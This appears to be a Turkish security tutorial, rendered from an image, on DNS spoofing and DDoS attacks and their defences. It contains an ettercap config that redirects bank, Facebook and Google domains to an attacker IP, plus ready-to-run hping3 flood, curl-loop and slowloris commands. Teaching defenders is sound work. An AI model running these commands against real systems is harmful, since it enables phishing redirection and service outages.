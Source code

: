 ### 🌊 DNS Spoofing

**Saldırı Senaryosu**:
```bash
# /etc/ettercap/etter.dns
# DNS spoofing konfigürasyonu

www.bank.com      A   192.168.1.100
*.facebook.com    A   192.168.1.100
*.google.com      A   192.168.1.100
```

**Korunma**:
```bash
# DNS over HTTPS (DoH)
nslookup google.com 1.1.1.1

# DNS over TLS (DoT)
dig @1.1.1.1 +tls google.com

# DNSSEC doğrulama
dig +dnssec google.com
```

### 💥 DDoS Saldırıları

#### **Volumetric Attacks**
```bash
# UDP Flood
hping3 -2 -p 80 --flood target.com

# ICMP Flood
hping3 -1 --flood target.com

# SYN Flood
hping3 -S -p 80 --flood target.com
```

#### **Application Layer Attacks**
```bash
# HTTP GET Flood
for i in {1..1000}; do
  curl -H "User-Agent: Bot$i" http://target.com/ &
done

# Slowloris Attack
slowloris.py target.com -p 80 -s 1000
```

**DDoS Korunma**:
```bash
# Rate limiting (iptables)
iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT

# SYN flood koruması
echo 1 > /proc/sys/net/ipv4/tcp_syncookies
echo 2048 > /proc/sys/net/ipv4/tcp_max_syn_backlog

# Connection tracking
iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
iptables -A INPUT -m conntrack --ctstate NEW -m limit --limit 50/second --limit-burst 100 -j ACCEPT
```
